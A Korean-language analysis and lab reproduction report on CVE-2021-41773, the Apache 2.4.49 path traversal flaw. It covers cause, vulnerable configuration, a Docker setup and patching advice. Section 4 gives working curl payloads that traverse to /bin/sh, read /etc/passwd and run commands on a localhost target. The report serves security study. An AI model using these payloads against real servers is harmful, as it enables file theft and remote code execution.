




# CVE-2021-41773 취약점 분석 및 재현 보고서

## 1. 취약점 요약
- **취약점 이름**: Apache HTTP Server Path Traversal 취약점
- **CVE 번호**: CVE-2021-41773
- **영향받는 버전**: Apache HTTP Server 2.4.49
- **취약점 종류**: - **취약점 종류**: Path Traversal
- **추가 영향**: CGI가 활성화된 특정 환경에서는 Remote Code Execution(RCE)으로 이어질 수 있습니다.
- **영향**: 원격 공격자는 웹 루트 밖의 파일을 읽을 수 있으며, CGI가 활성화된 환경에서는 원격 코드 실행으로 이어질 수 있습니다.
- **Risk Score (CVSS v3.1)**: 7.5 (High) - 원격 공격 가능, 인증 불필요, 기밀성/무결성/가용성 영향 높음.

## 2. 환경 구성

- **OS**: Windows 11
- **WSL**: Ubuntu
- **컨테이너 환경**: Docker Desktop, Docker Compose
- **대상 웹 서버**: Apache HTTP Server 2.4.49

## 3. 취약 조건 및 원인 분석
- **원인**: Apache HTTP Server 2.4.49 버전에서 URL 정규화(Normalization) 과정 중 인코딩된 경로 이동 문자열(`.%2e`)을 올바르게 필터링하지 못하여 상위 디렉터리 접근 권한을 획득하게 됩니다.
- **취약 설정**: `httpd.conf` 설정에서 루트 및 전체 디렉터리에 대한 접근 제한이 완화(`Require all granted`)되어 있어야 우회가 트리거됩니다.
- **RCE 조건**: 원격 코드 실행(RCE)을 위해서는 아파치의 CGI 모듈(`mod_cgi` 또는 `mod_cgid`)이 활성화되어 있어야 합니다.

## 4. 재현 절차 및 PoC 코드

본 프로젝트는 Docker 기반으로 구성되어 있으며, 아래 명령어만 실행하면 동일한 환경에서 취약 환경을 재현할 수 있습니다.

```bash
# 1. 저장소 복제
git clone https://github.com/minyoungyu/kr-vulhub.git

# 2. 취약 환경 디렉터리로 이동
cd kr-vulhub/Apache/CVE-2021-41773

# 3. Docker 환경 구축 및 실행
docker compose up -d --build
```

### 4.1 Path Traversal (임의 파일 읽기)
`/cgi-bin/` 경로의 스크립트 실행 강제 특성으로 인한 500 에러를 방지하고, 평가자의 호스트 OS 터미널 문법과 무관하게 재현성을 보장하기 위해 취약점을 통해 내부의 `cat` 명령어로 `/etc/passwd` 파일을 안전하게 호출합니다.

```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; cat /etc/passwd" "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```

### 4.2 Remote Code Execution (원격 코드 실행)
공격 경로를 통해 시스템 내부의 셸을 호출하고 원격 명령어(`id`, `uname -a`)를 주입하여 서버의 현재 권한 및 커널 정보를 탈취합니다.

```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; id; uname -a" "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```

## 5. 실행 결과 (스크린샷)

### 5.1 Docker Compose 인프라 빌드 및 가동 확인
단일 명령어를 통해 취약 환경 인프라가 캐시 없이 로컬에서 정상 빌드 및 실행 완료된 터미널 화면입니다. (가이드라인 7번 단일 명령 구성 검증)


### 5.2 로컬 호스트 Apache 가동 검증
공격 전, 8080 포트에서 대상 Apache 2.4.49 서버가 정상적으로 활성화되어 응답하는 것을 웹 브라우저를 통해 검증합니다.


### 5.3 Path Traversal 결과 (임의 파일 읽기 성공)
인코딩된 우회 경로와 CGI 권한을 조합하여 시스템 중요 파일인 `/etc/passwd` 내부 데이터를 탈취하는 데 성공한 화면입니다.


### 5.4 Remote Code Execution 결과 (시스템 명령어 주입 성공)
공격자가 주입한 `id` 및 `uname -a` 명령어가 대상 서버 백엔드에서 무해화되지 않고 그대로 실행되어 `daemon` 권한 및 리눅스 커널 정보가 유출된 화면입니다.


## 6. 대응 방안
- **보안 패치**: Apache HTTP Server 버전을 패치가 적용된 최신 버전(2.4.51 이상)으로 즉시 업그레이드합니다.
- **설정 교정**: `httpd.conf` 설정에서 기본 루트 디렉터리 및 서비스에 불필요한 경로에 대해 상시 접근 제어 정책을 `Require all denied`로 명시하여 공격 표면을 무력화합니다.

## 7. References

- https://nvd.nist.gov/vuln/detail/CVE-2021-41773
- https://httpd.apache.org/security/vulnerabilities_24.html
- https://www.cisa.gov/known-exploited-vulnerabilities-catalog
